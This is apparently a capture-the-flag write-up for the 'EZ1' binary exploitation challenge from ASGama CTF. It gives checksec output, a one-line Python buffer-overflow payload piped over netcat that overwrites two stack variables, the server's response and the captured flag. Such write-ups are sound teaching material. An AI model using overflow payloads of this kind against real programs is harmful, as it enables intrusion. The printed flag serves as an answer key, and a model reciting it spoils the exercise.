

# __ASGama CTF__ 
## _EZ1_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 100 | l0l

**Description:** 

> EZ 1
>
> ez
> nc asgama.web.id 40210
>
> [ez1](./ez1)

### ez1
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=91cf29963d62f9f85d561bb273ed4d7a54b5037b, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### ez1 Disassembly


Soal ini mirip seperti [Buffer1](../Buffer1/README.md) hanya pembandingan nilai pada address tidak hanya sekali namun dua kali.


### Payload
`$ python -c "from pwn import p32; print 'A'*(0x90-0x10)+p32(0)+p32(0x13377331)" | nc asgama.web.id 40210`


### Result 
```
$ python -c "from pwn import p32; print 'A'*(0x90-0x10)+p32(0)+p32(0x13377331)" | nc asgama.web.id 40210
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}
```

### Flag 
GamaCTF{0v3RWrite_vAriaBl3_D0eL0e_G4n}